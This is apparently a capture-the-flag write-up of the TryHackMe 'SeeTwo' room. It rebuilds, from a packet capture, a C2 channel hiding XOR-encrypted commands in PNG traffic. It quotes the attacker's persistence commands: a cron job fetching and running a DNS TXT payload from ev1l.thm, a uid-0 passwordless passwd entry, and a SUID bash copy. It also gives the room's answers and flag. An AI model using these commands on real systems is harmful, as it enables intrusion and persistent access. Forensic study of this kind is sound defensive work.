




| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|SeeTwo ||

SeeTwo is a standalone medium challenge room, and its one line brief is the whole puzzle: "Can you see who is in command and control?" There is no lab machine to deploy and nothing to exploit. You download a single `evidence.zip`, find one capture inside, and reconstruct an entire intrusion from the packets. It sits next to the other pcap rooms I have written up, [TShark Challenge II](/post/thm-room-tsharkchallengestwo/) and [Overpass 2 Hacked](/post/tryhackme-overpass2hacked/), where the job is the same: read what the attacker did straight off the wire.

The name is the hint. "SeeTwo" is C2, and the twist is that the C2 channel hides its traffic inside PNG images. Most of the capture is noise designed to look boring. The real commands are base64, wrapped behind a cover image, and encrypted with a key that the attacker was kind enough to ship us.

The zip downloads with an md5 of `ea6f0bf505f87d18c9881de055b63ed3`, which the task text publishes so you can verify before opening it. I extracted it into an isolated folder and never ran anything from it, which is the right habit for any sample, benign or not.

## Reading the capture

The first move on any pcap is to see what protocols are present and who talked to whom. The protocol hierarchy and the TCP conversation list do that in two commands.

```text
  tshark -r capture.pcap -q -z io,phs
  tshark -r capture.pcap -q -z conv,tcp
```



Two hosts matter: `10.0.2.64` and `10.0.2.71`. The capture is mostly SSH, which is encrypted and a dead end, but three things stand out. There is a big HTTP transfer where `10.0.2.71` does `GET http://10.0.2.64/base64_client` and gets back `application/octet-stream`. And there are two TCP sessions from `10.0.2.71` to `10.0.2.64` on port `1337`. So `10.0.2.64` is the attacker: it serves a file over HTTP and listens for the victim on a classic C2 port.

## The base64_client dropper

The HTTP object called `base64_client` exports as 16 MB of ASCII text, not a binary. The name is literal: it is base64. Decoding it returns the real payload.

```text
  tshark -r capture.pcap --export-objects http,./objs
  base64 -d objs/base64_client > client.bin
  file client.bin
  # ELF 64-bit LSB executable, x86-64, stripped
  md5sum client.bin
  # 7c5c74397075ee7cd1b1e9a9438be9ea
```

It is a stripped ELF built with PyInstaller, so a Python program frozen into one executable. This is the C2 client the victim ran, and it is where the covert protocol lives. Note this md5 is the client itself, which is a different artifact from the backdoor the attacker plants later on the box, so keep the two apart.

## Cracking the covert channel

Following either port 1337 stream shows a long base64 string that decodes to a small PNG, repeated over and over, with a short extra chunk of base64 tacked on after each image. Every PNG is byte for byte identical, so the image is pure cover. The data is in the tail.

Rather than guess the encoding, I read it out of the client. PyInstaller just concatenates the Python modules onto the bootloader, so the main script sits in the file as a compressed blob. Pulling the strings out of that module hands over the entire scheme.



Everything needed is right there: the client connects to `10.0.2.64:1337`, and each message is `base64(cover.png)` followed by a fixed `AAAAAAAAAA` separator, followed by `base64(xor(payload))`. The payload is XOR encrypted with the key `MySup3rXoRKeYForCommandandControl` repeated to length. That separator is why my first decode attempts looked like random bytes: I was reading the padding as data. Split on it, base64 decode the tail, XOR with the key, and the channel opens up.



## Replaying the C2 session

With the key in hand, every command the attacker sent and every reply the victim returned comes back as plain text. I masked one looted database password in my evidence; everything else is the attacker's own output.



The session reads like a tidy post-exploitation checklist, and it answers almost every question in order.

The attacker lands as `bella` and the **first file that is read is `/home/bella/.bash_history`**. That history is a gift: its contents are a root MySQL login, so the **output of that file is `mysql -u root -p'vb0xIkSGbcEKBEi'`**. A quick `sudo -l` confirms `bella` can run anything, and the next `id` comes back as `uid=0(root)`.

From root, the attacker builds persistence three ways. First a backdoor account is appended to `/etc/passwd`, and the **entire line for the backdoor user is `toor::0:0:root:/root:/bin/bash`**, which is a uid 0 account with an empty password. Second, a copy of the shell is dropped and made SUID:

```text
  cp /usr/bin/bash /usr/bin/passswd
  chmod u+s /usr/bin/passswd
```

So the **backdoor executable is `/usr/bin/passswd`** (note the extra s, a near miss for the real `passwd`), and `md5sum` on it reports the **md5 hash `23c415748ff840b296d0b93f98649dec`**, which matches `/usr/bin/bash` since it is a straight copy.

The last step is cron. The **first cron job the attacker places is `* * * * * /bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.ev1l.thm)"`**, a DNS based downloader that fetches and runs whatever a TXT record at `ev1l.thm` returns.

## The flag in plain sight

A second cron job follows, this one aimed at `bella`'s crontab, and it carries a base64 string instead of a plain hostname. Decoding it is the last step.

```text
  echo L2Jpbi9zaCAtYyAic2ggLWMgJChkaWcgZXYxbC50aG0gVFhU... | base64 -d
  # /bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.THM{See2sNev3rGetOld}.thm)"
```



The flag is hiding as a subdomain in the exfil query. The **flag is `THM{See2sNev3rGetOld}`**, a nod to how old the appended data after IEND trick really is.

## Two takeaways

First, a covert channel is only as strong as its key management, and bundling the key with the agent defeats the point. The PNG wrapper here is good tradecraft, since identical cover images blend into normal looking image traffic, but the whole thing unravelled the moment I pulled strings from the PyInstaller binary and read `MySup3rXoRKeYForCommandandControl` off the page. When you meet an unknown protocol in a capture and you also have the client that speaks it, reverse the client before you brute force the bytes.

Second, persistence leaves loud, queryable artifacts even when the delivery is quiet. A uid 0 line in `/etc/passwd`, a shell copied to a `passswd` SUID binary, and cron jobs that shell out to `dig` are exactly the kind of host evidence a defender should hunt for after any suspected intrusion. The channel was clever; the footprint it dropped on disk was not.

Room solved 100%: 1 task, 7 answers.
